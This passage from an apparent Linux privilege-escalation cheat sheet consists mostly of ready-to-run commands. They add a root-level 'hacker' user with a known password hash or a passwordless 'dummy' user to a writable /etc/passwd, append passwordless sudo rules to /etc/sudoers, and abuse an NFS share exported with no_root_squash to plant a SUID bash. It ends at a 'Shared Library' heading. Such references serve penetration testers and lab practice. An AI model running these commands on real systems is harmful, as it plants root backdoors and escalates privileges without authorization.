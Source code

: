 Then add the user `hacker` and add the generated password.

```powershell
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

You can now use the `su` command with `hacker:hacker`

Alternatively you can use the following lines to add a dummy user without a password.
WARNING: you might degrade the current security of the machine.

```powershell
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

NOTE: In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`.

### Writable /etc/sudoers

```powershell
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```

## NFS Root Squashing

When **no_root_squash** appears in `/etc/exports`, the folder is shareable and a remote user can mount it.

```powershell
# remote check the name of the folder
showmount -e 10.10.10.10

# create dir
mkdir /tmp/nfsdir  

# mount directory 
mount -t nfs 10.10.10.10:/shared /tmp/nfsdir    
cd /tmp/nfsdir

# copy wanted shell 
cp /bin/bash .  

# set suid permission
chmod +s bash  
```

## Shared Library
